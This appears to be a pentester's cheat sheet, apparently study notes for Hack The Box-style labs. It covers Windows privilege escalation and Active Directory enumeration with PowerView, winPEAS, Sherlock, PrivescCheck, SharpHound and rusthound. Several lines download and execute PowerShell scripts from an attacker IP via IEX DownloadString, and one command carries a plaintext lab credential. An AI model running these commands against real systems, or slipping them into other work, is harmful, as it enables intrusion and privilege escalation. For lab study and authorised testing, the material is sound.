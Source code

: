 ```powershell
Find-LocalAdminAccess
Get-LocalGroupMember Administrators
Invoke-UserHunter
Get-NetSession -Verbose -ComputerName web04 
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```
### winPEAS
```powershell
# on nc.exe
cd /usr/share/peass/winpeas
iwr -Uri http:// -Outfile winPEASany.exe
# on powershell
iwr -Uri http:// -Outfile winPEAS.bat
```
### Powerless
https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk
```powershell
wget https://raw.githubusercontent.com/gladiatx0r/Powerless/master/Powerless.bat
```
### token
```powershell
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel
```
### Sherlock
https://github.com/rasta-mouse/Sherlock
```powershell
wget https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1

IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.36/Sherlock.ps1'); Find-AllVulns
```
### PrivescCheck
https://github.com/itm4n/PrivescCheck
```powershell
wget https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1

IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.36/PrivescCheck.ps1'); Invoke-PrivescCheck
```

### BloodHound
#### Sharphound
```powershell
# Sharphound
cd /usr/lib/bloodhound/resources/app/Collectors/
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.37/SharpHound.ps1')
Invoke-BloodHound -CollectionMethod All -Domain htb.local -DomainController 10.10.10.1 -OutputDirectory C:\Users\stephanie\Desktop\ -OutputPrefix "Name"

.\SharpHound.exe -c All -d htb.local --domainController 10.10.10.1 -o 

# rusthound
./rusthound_musl -d streamio.htb -i 10.10.11.158 -u 'JDgodd@streamIO.htb' -p 'JDg0dd1s@d0p3cr3@t0r' --ldaps
```
#### neo4j
```bash
MATCH (m:Computer) RETURN m
MATCH (m:User) RETURN m
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```